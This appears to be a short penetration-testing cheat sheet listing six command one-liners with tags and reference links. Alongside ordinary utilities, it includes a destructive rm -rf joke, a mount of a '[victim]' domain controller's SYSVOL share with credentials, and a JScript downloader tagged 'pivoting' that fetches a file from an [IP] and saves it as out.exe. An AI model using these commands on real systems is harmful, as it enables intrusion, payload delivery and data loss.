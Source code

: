 ### 1. 1Gig of zeros
```
dd if=/dev/zero of=1g.img count=1M bs=1K
```
**- linux,bash,files**
#### References:

https://www.cyberciti.biz/faq/linux-unix-dd-command-show-progress-while-coping/
__________
### 2. Fix nano <3 ;)
```
# rm -rf `which nano`; ln -s `which vim` /usr/bin/nano
```
**- bash,text manipulation,files,interesting**
#### References:

https://xkcd.com/378/
__________
### 3. Mount Sysvol share (hosted on the DC)
```
mount -t cifs \\\\[victim]\\SYSVOL -o username=[user],password=[password] mount/; nautilus mount/;
```
**- linux,files,smb,filesystem**
#### References:

https://www.cyberciti.biz/faq/linux-mount-cifs-windows-share/
__________
### 4. Windows open files
```
tasklist /FI "IMAGENAME eq [process].exe" /V
```
**- files,enumeration,Windows**
#### References:

https://technet.microsoft.com/en-gb/library/bb491010.aspx
__________
### 5. Javascript wget windows oneline : cscript /nologo wget.js http://[IP]
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET",WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();BinStream = new ActiveXObject("ADODB.Stream");BinStream.Type=1;BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);BinStream.SaveToFile("out.exe");>wget.js
```
**- pivoting,files,Windows**
#### References:

http://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-is-doing
__________
### 6. Cat for windows
```
type [FILE]
```
**- files,Windows**
#### References:
